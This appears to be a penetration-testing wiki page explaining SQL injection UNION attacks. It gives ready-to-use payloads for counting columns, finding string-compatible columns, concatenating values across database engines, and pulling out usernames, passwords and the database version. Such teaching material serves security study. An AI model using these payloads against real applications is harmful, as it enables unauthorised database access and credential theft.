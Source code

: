 # UNION Attacks

## Theory

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in a SQL injection UNION attack.

The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query. For example: 
```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```
  
This SQL query will return a single result set with two columns, containing values from columns **a** and **b** in **table1** and columns **c** and **d** in **table2**. 

## Practice

### Finding number of columns
We first need to know the number of columns in order to append data. When performing a SQL injection UNION attack, there are three effective methods to determine how many columns are being returned from the original query. 

{% tabs %}
{% tab title="MySQL" %}
Using `order by`
```sql
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#True
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```
  
Using `group by`
```sql
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

Using `UNION SELECT` 
This only works if error showing is enabled
```sql
' UNION SELECT NULL--            #The used SELECT statements have a different number of columns
' UNION SELECT NULL,NULL--       #The used SELECT statements have a different number of columns
' UNION SELECT NULL,NULL,NULL--  #No error means query uses 3 column
```
{% endtab %}
{% endtabs %}

### Finding the good column's data type
The reason for performing a SQL injection UNION attack is to be able to retrieve the results from an injected query. Generally, the interesting data that you want to retrieve will be in string form, so you need to find one or more columns in the original query results whose data type is, or is compatible with, string data. 
{% tabs %}
{% tab title="MySQL" %}
After already determined number of columns, you can probe each column to test whether it can hold string data by submitting a series of `UNION SELECT`. For example, if the query returns four columns, you would submit: 
```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
{% endtab %}
{% endtabs %}

### String concatenation
You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values.  
For example, on Oracle you could submit the input: `' UNION SELECT username || '~' || password FROM users--`

{% tabs %}
{% tab title="MySQL" %}
```sql
'foo' '~' 'bar' /*Note the space between the two strings*/
CONCAT('foo','~','bar')
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
'foo'+'~'+'bar' 
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}

{% tab title="SQLite" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}
{% endtabs %}

### Unsing UNION attack
When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.

For example we can retrieve the database version on MySQL:
```
' UNION SELECT @@version, NULL--
```

You can now use queries on this page, in combinaison with UNION injection to dump the database. 
{% content-ref url="enum-database.md" %}
[enum-database.md](enum-database.md)
{% endcontent-ref %}


## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}
{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}